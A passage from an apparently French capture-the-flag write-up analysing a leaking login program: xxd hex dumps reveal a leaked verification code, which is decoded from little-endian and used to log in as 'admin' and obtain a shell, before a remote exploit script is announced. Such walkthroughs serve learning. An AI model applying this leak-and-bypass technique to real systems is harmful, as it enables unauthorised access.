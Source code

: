 #### Analyse du leak avec `xxd` et exploitation locale

Si l'on passe l'output du programme en utilisation anormale dans l'utilitaire
`xxd`, cela nous donne :
```
00000000: 4f70 7469 6f6e 733a 2028 3129 2045 6e74  Options: (1) Ent
00000010: 6572 2075 7365 726e 616d 652c 2028 3229  er username, (2)
00000020: 2043 6f6e 6669 726d 2075 7365 726e 616d   Confirm usernam
00000030: 652c 2028 3329 2044 6f6e 653a 2043 7572  e, (3) Done: Cur
00000040: 7265 6e74 2075 7365 726e 616d 6520 6973  rent username is
00000050: 3a20 ab06 0a4f 7074 696f 6e73 3a20 2831  : ...Options: (1
00000060: 2920 456e 7465 7220 7573 6572 6e61 6d65  ) Enter username
00000070: 2c20 2832 2920 436f 6e66 6972 6d20 7573  , (2) Confirm us
00000080: 6572 6e61 6d65 2c20 2833 2920 446f 6e65  ername, (3) Done
```

Analysons la ligne `00000050`. Nous pouvons voir `3a20`, c'est à dire ':' suivi
d'un espace. Ensuite nous pouvons voir `ab06` suivi de `0a`, un saut de ligne.

L'output de l'option 2 est donc `ab06`, Nous sommes sur une architecture x86,
Cet output est écrit en little endian, c'est-à-dire "à l'envers".

```
(little_endian)0xab06 = (big_endian)0x06ab

0x06ab = 1707
```

Nous rentrons alors l'username `admin` :
```
1
admin
00000090: 3a20 5573 6572 6e61 6d65 3a20 4f70 7469  : Username: Opti
000000a0: 6f6e 733a 2028 3129 2045 6e74 6572 2075  ons: (1) Enter u
000000b0: 7365 726e 616d 652c 2028 3229 2043 6f6e  sername, (2) Con
000000c0: 6669 726d 2075 7365 726e 616d 652c 2028  firm username, (
```

Puis nous rentrons le code de vérification que nous avons trouvé :
```
3
000000d0: 3329 2044 6f6e 653a 204c 6f67 6769 6e67  3) Done: Logging
000000e0: 2069 6e20 6173 2027 6164 6d69 6e27 0a45   in as 'admin'.E
000000f0: 6e74 6572 2079 6f75 7220 6175 7468 656e  nter your authen
1707
00000100: 7469 6361 7469 6f6e 2063 6f64 653a 201b  tication code: .
```

Nous n'avons pas `access denied` et un shell vient de s'ouvrir (vous ne pouvez
pas le voir ici).

### Exploitation à distance à l'aide d'un script

Nous pourrions utiliser `xxd` pour exploiter l'exécutable à distance mais
écrire un script python automatique est plus professionnel.
